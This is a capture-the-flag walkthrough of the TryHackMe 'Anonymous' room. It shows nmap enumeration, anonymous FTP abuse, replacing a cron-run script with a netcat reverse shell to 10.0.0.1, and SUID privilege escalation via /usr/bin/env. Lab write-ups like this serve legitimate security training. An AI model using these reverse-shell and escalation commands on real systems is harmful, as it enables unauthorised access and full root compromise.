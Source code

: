 Room: [Anonymous](https://tryhackme.com/room/anonymous)

Difficulty: Medium

Overview: In this room we will take advantage of a missconfigured ftp server in order to modify a script that runs has a cronjob. From there we will exploit SUID binaries to do privilege escalation. 

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start off by enumerating the machine with nmap:

**nmap -sV -sC -A -p anonymous.thm -oN nmap.txt**

![nmap1](https://user-images.githubusercontent.com/76821053/118256768-c30dd800-b4a5-11eb-8835-6cbb9f426a20.png)
![nmap2](https://user-images.githubusercontent.com/76821053/118256851-d7ea6b80-b4a5-11eb-9455-def0bbef6f87.png)

Open ports and their versions running on the remote system:

21    →  vsftpd 2.0.8 

22    →  OpenSSH 7.6p1

139  →  netbios-ssn Samba smbd 3.X - 4.X

445  →  netbios-ssn Samba smbd 4.7.6

From the nmap scan we can imediately answer the first three questions.

Continuing enumerating the machine. 

The ftp server lets us login with user “anonymous” without any password.

![ftpdownload](https://user-images.githubusercontent.com/76821053/118257028-1122db80-b4a6-11eb-90cf-8b198bb70edf.png)

I downloaded three files: **clean.sh**, **removed_files.log**, **to_do.txt**.

**to_do.txt**:

Leaves a hint that the system is not safe. Meaning that maybe some services have anonymous login.

![todo](https://user-images.githubusercontent.com/76821053/118257209-45969780-b4a6-11eb-9215-7690384324ed.png)

**clean.sh**:

Is a bash script that when ran it checks if there is files in the /tmp directory and removes them. 

![readclean](https://user-images.githubusercontent.com/76821053/118257284-5ba45800-b4a6-11eb-9f3e-5db72feed54b.png)

**removed_files.log**:

When the bash script runs it posts status messages to this .log file.

![remotelog](https://user-images.githubusercontent.com/76821053/118257366-75de3600-b4a6-11eb-93e9-5790a2a1c534.png)

If we monitored the **removed_files.log** file we can see that the script **clean.sh** is running has a cronjob since it keeps posting to the .log file everyminute:

If we use "wc -l" we can check how many lines (post messages) the file has.

![remoteWC1](https://user-images.githubusercontent.com/76821053/118257588-b63db400-b4a6-11eb-882b-1693c6c60e0d.png)

After a few minutes we have 72 entries.
 
![remoteWC2](https://user-images.githubusercontent.com/76821053/118257627-c05fb280-b4a6-11eb-8468-1d11bf8a02b3.png)
 
Lets try to upload files to the ftp server:
 
![ftpuploadtest](https://user-images.githubusercontent.com/76821053/118257708-d9686380-b4a6-11eb-9d0e-098654b93554.png)
 
Has we can see the system allows file upload, so lets change the **clean.sh** script a bit and upload it:
 
![cleantest](https://user-images.githubusercontent.com/76821053/118257824-f7ce5f00-b4a6-11eb-8b4f-6e3e435514d6.png)
 
The new message was posted to the .log file after a minute. 
 
![removemessage](https://user-images.githubusercontent.com/76821053/118258135-6ca19900-b4a7-11eb-8c7f-6b00cb9cff3d.png)

This is our way in to the remote target, so lets change the script to run a netcat reverse shell connection.

**rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f**

Change ip and port to match your own system and delete or comment out the rest of the script, because if the script runs the rest of the commands it will delete our tmp files.

![cleannetcat](https://user-images.githubusercontent.com/76821053/118265218-bb076580-b4b0-11eb-84fe-d1d79f532501.png)

Now we just have to be listening with netcat on the port we specify when we upload the new clean.sh file to the ftp server and get a reverse shell connection.

![netcatreverse](https://user-images.githubusercontent.com/76821053/118265304-dffbd880-b4b0-11eb-878d-c77337844df2.png)

Right away we can find the user.txt flag.

![flag1](https://user-images.githubusercontent.com/76821053/118265533-3a953480-b4b1-11eb-9990-d5658b3adbac.png)

It's good practice to stabilize your shell. So we can use tab-completion, Ctrl+C  without completely kills our shell and use su command since it often do not work.

And in a kali machine to do that we will use the following command:

**python -c 'import pty;pty.spawn("/bin/bash")'**

**export TERM=xterm-256-color**

**CTRL + Z**

**stty raw -echo; fg**

![stabilizeshell](https://user-images.githubusercontent.com/76821053/118265726-7fb96680-b4b1-11eb-973b-a63383054857.png)

Now lets try and elevate our privileges and gain root access.

We can use tools like linpeas.sh, but in this case we will do it manually. Since this privilege escalation is a simple one to find.

When enumerating a UNIX base system one of the first things we can do is search for SUID binaries. Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.  Files that have suid permissions run with higher privileges. 

For example if a file is owned by “root" user and is set to run has a SUID binary. Normal users might take advantage of this permitions to elevate their privileges.

So to check for SUID binaries we can use this command:

**find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;**

![findsuid](https://user-images.githubusercontent.com/76821053/118266231-33baf180-b4b2-11eb-9900-099dc92816fe.png)
![findsuid2](https://user-images.githubusercontent.com/76821053/118266407-7250ac00-b4b2-11eb-85be-5583970bedab.png)

There is a great site called GTFOBins that has a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

/usr/bin/env binary is running has root with SUID permitions, so we can exploit it.

![GTFObinenv](https://user-images.githubusercontent.com/76821053/118266632-c6f42700-b4b2-11eb-92f8-da4efdf14a9c.png)

/usr/bin/env /bin/sh -p

![rootflag](https://user-images.githubusercontent.com/76821053/118266812-091d6880-b4b3-11eb-91b8-50146e4390db.png)

Success we found our last flag!




